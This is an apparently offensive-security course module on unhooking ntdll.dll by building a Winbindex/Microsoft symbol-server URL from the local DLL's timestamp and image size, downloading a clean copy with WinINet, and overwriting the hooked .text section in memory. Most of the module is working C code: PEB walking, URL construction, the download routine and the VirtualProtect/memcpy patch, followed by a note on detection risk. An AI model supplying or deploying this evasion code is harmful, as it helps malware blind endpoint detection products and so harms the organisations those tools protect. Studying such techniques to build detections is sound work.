









Introduction
By now the reader should have an understanding of several ways to unhook ntdll.dll. One may ask, why not simply include a clean version of NTDLL in the binary? The issue with that approach is one would need to have several versions of NTDLL included in the binary in order to support the multiple version of Windows OS. As a result, this would greatly increase the size of the implementation, making this a flawed approach.
This module will demonstrate an alternative approach that fetches NTDLL from a web server. The implementation will first check the NTDLL version on the current machine and fetch the appropriate version of NTDLL from the web server. The difficult part of this approach is to upload all versions of NTDLL on a web server, therefore in this module, Winbindex will be utilized which contains almost all ntdll.dll versions.
Winbindex
Winbindex is a website that contains several versions of files found on Windows OS. Additionally, it contains a search utility to search for the required file. The image below is the output of searching for the 64-bit version of ntdll.dll

Determining Winbindex's URL Format
Because ntdll.dll must be fetched programmatically, it's important to understand how download links are formatted. Analyze the 3 URLs below:
Notice how only one part of the URL changes. This is visualized in the following image.
Links 1 & 2 both contain "1ee000" in the URL, which is 2023424 in decimal. Viewing the additional information regarding the first NTDLL module and searching for the value "2023424" reveals that it's the NTDLL's VirtualSize.


Searching for the first part of the string, "494079D6", which is 1228962262 in decimal, reveals that this is the timestamp of the file.

Therefore, the first part of the URL, the timestamp, is derived from the IMAGE_FILE_HEADER.TimeDateStamp element of the DLL. The second part, VirtualSize, is derived from the IMAGE_OPTIONAL_HEADER.SizeOfImage element of the DLL.
Winbindex's download links are visualized in the image below.

ReadNtdllFromServer Function
The next step is to build a function that creates a suitable URL for the local machine. This is what the following ReadNtdllFromServer function does.
The ReadNtdllFromServer function calls FetchLocalNtdllBaseAddress to obtain the base address of the local ntdll.dll image to build the download URL. This is done using wsprintfW which combines the string "https://msdl.microsoft.com/download/symbols/ntdll.dll/", which is the fixed part of the download link with pImgNtHdrs->FileHeader.TimeDateStamp and pImgNtHdrs->OptionalHeader.SizeOfImage values.
Once that's done, the function calls GetPayloadFromUrl which was introduced in the Payload Staging - Web Server module. This function is responsible for downloading the payload file from a web server, but in this case, it's being utilized to download ntdll.dll from the generated link.
#define FIXED_URL L"https://msdl.microsoft.com/download/symbols/ntdll.dll/"
PVOID FetchLocalNtdllBaseAddress() {
#ifdef _WIN64
PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'ServerUnhooking.exe')
// 0x10 is = sizeof(LIST_ENTRY)
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
return pLdr->DllBase;
}
BOOL ReadNtdllFromServer(OUT PVOID* ppNtdllBuf) {
PBYTE pNtdllModule = (PBYTE)FetchLocalNtdllBaseAddress();
PVOID pNtdllBuffer = NULL;
SIZE_T sNtdllSize = NULL;
WCHAR szFullUrl [MAX_PATH] = { 0 };
// getting the dos header of the local ntdll image
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pNtdllModule;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
// getting the nt headers of the local ntdll image
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pNtdllModule + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
// constructing the download url
wsprintfW(szFullUrl, L"%s%0.8X%0.4X/ntdll.dll", FIXED_URL, pImgNtHdrs->FileHeader.TimeDateStamp, pImgNtHdrs->OptionalHeader.SizeOfImage);
// 'GetPayloadFromUrl' is used to download a file from a webserver
if (!GetPayloadFromUrl(szFullUrl, &pNtdllBuffer, &sNtdllSize))
return FALSE;
// 'sNtdllSize' will now contain the size of the downloaded ntdll.dll file
// 'pNtdllBuffer' will now contain the base address of the downloaded ntdll.dll file
*ppNtdllBuf = pNtdllBuffer;
return TRUE;
}Recall that GetPayloadFromUrl has three parameters, the download URL, and two output parameters that represent the base address and size of the downloaded file, respectively.
BOOL GetPayloadFromUrl(IN LPCWSTR szUrl, OUT PVOID* pNtdllBuffer, OUT PSIZE_T sNtdllSize) {
BOOL bSTATE = TRUE;
HINTERNET hInternet = NULL,
hInternetFile = NULL;
DWORD dwBytesRead = NULL;
SIZE_T sSize = NULL; // Used as the total size counter
PBYTE pBytes = NULL, // Used as the total heap buffer counter
pTmpBytes = NULL; // Used as the tmp buffer (of size 1024)
// Opening the internet session handle, all arguments are NULL here since no proxy options are required
hInternet = InternetOpenW(L"Offensive Engineering Handbook", NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
// Opening the handle to the ntdll file using theURL
hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL) {
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
// Allocating 1024 bytes to the temp buffer
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
if (pTmpBytes == NULL) {
bSTATE = FALSE; goto _EndOfFunction;
}
while (TRUE) {
// Reading 1024 bytes to the tmp buffer. The function will read less bytes in case the file is less than 1024 bytes.
if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
// Calculating the total size of the total buffer
sSize += dwBytesRead;
// In case the total buffer is not allocated yet
// then allocate it equal to the size of the bytes read since it may be less than 1024 bytes
if (pBytes == NULL)
pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
else
// Otherwise, reallocate the pBytes to equal to the total size, sSize.
// This is required in order to fit the whole ntdll file bytes
pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
if (pBytes == NULL) {
bSTATE = FALSE; goto _EndOfFunction;
}
// Append the temp buffer to the end of the total buffer
memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
// Clean up the temp buffer
memset(pTmpBytes, '\0', dwBytesRead);
// If less than 1024 bytes were read it means the end of the file was reached
// Therefore exit the loop
if (dwBytesRead < 1024) {
break;
}
// Otherwise, read the next 1024 bytes
}
// Saving
*pNtdllBuffer = pBytes;
*sNtdllSize = sSize;
_EndOfFunction:
if (hInternet)
InternetCloseHandle(hInternet); // Closing handle
if (hInternetFile)
InternetCloseHandle(hInternetFile); // Closing handle
if (hInternet)
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0); // Closing Wininet connection
if (pTmpBytes)
LocalFree(pTmpBytes); // Freeing the temp buffer
return bSTATE;
}Putting It All Together
Now that an unhooked version of ntdll.dll is in memory, the ReplaceNtdllTxtSection function is utilized to replace the text section of the hooked ntdll.dll with the newly unhooked one. The only modification required is to use the pUnhookedNtdll parameter, which represents the base address of the NTDLL module fetched using the ReadNtdllFromServer function detailed above.
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {
PVOID pLocalNtdll = (PVOID)FetchLocalNtdllBaseAddress();
// getting the dos header
PIMAGE_DOS_HEADER pLocalDosHdr = (PIMAGE_DOS_HEADER)pLocalNtdll;
if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// getting the nt headers
PIMAGE_NT_HEADERS pLocalNtHdrs = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
PVOID pLocalNtdllTxt = NULL, // local hooked text section base address
pRemoteNtdllTxt = NULL; // the unhooked text section base address
SIZE_T sNtdllTxtSize = NULL; // the size of the text section
// getting the text section
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);
for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {
// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + 1024);
sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
break;
}
}
//---------------------------------------------------------------------------------------------------------------------------
// small check to verify that all the required information is retrieved
if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
return FALSE;
// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt) {
// if not, then the read text section is also of offset 4096, so we add 3072 (because we added 1024 already)
(ULONG_PTR)pRemoteNtdllTxt += 3072;
// checking again
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
return FALSE;
}
//---------------------------------------------------------------------------------------------------------------------------
DWORD dwOldProtection = NULL;
// making the text section writable and executable
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
return FALSE;
}
// copying the new text section
memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);
// rrestoring the old memory protection
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Even though the ntdll.dll file is read from a WebServer, the offset of the text section can be 4096, and since this assumption can't be validated until runtime, an if-statement is added to verify this possibility and work upon it by adding 3072 bytes to the miscalculated base address (because 1024 bytes were already added).
The result is a base address of a text section of offset 4096. This logic was introduced in the Ntdll Unhooking - From Disk module.
Risk Consideration
Although this NTDLL unhooking approach may appear a good approach at first, it is considered risky due to the usage of the WinINet APIs. These APIs are used to interact with the HTTP/S protocol, but they require loading additional DLL images such as wininet.dll, winhttp.dll, sechost.dll, and many other DLLs that export functions used by these WinINet APIs. Loading these DLLs is done using functions that are likely being hooked such as LoadLibrary and LdrLoadDll, which exposes the inner design of the implementation.
Demo
Downloading the ntdll.dll file from Winbindex.

The hooked ntdll.dll text section to be replaced.

Miscalculating the text section base address.

Recalculating the base address.

Replacing the text section.